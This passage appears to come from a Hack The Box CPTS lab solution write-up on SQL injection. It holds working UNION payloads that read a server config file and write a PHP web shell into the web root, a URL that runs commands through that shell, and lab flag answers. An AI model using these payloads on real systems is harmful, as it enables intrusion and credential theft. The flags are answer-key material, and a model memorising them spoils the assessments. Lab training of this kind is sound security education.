 ```sql
foo' UNION SELECT 1,LOAD_FILE("/var/www/html/config.php"),3,4-- -
```

![[HTB Solutions/CPTS/z. images/b9cf3539e4a71bc5ef95206cbacbd83f_MD5.jpg]]

Answer: `dB_pAssw0rd_iS_flag!`

# Writing Files

## Question 1

### "Find the flag by using a webshell."

Students first need to check whether the current user they are executing queries as can read and write files to any directory on the backend server:

```sql
foo' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![[HTB Solutions/CPTS/z. images/8862b2e792f838207ad50bb510fde1bb_MD5.jpg]]

Since the value for `SECURE_FILE_PRIV` is empty, the current user can read and write files to any directory. Thus, students then need to write a web shell to the web root folder to allow them to execute commands on the backend server:

```sql
foo' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -
```

Once the web shell has been successfully written into the web root folder, students at last need to browse to the "shell.php" file and specify the command to be executed in the "cmd" parameter (which must be URL-encoded):

```shell
http://STMIP:STMPO/shell.php?cmd=cat%20../flag.txt
```

![[HTB Solutions/CPTS/z. images/e68ba3a40730a24863408badd3ae17e3_MD5.jpg]]

Answer: `d2b5b27ae688b6a0f1d21b7d3a0798cd`

# Skills Assessment - SQL Injection Fundamentals

## Question 1

### "Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer."
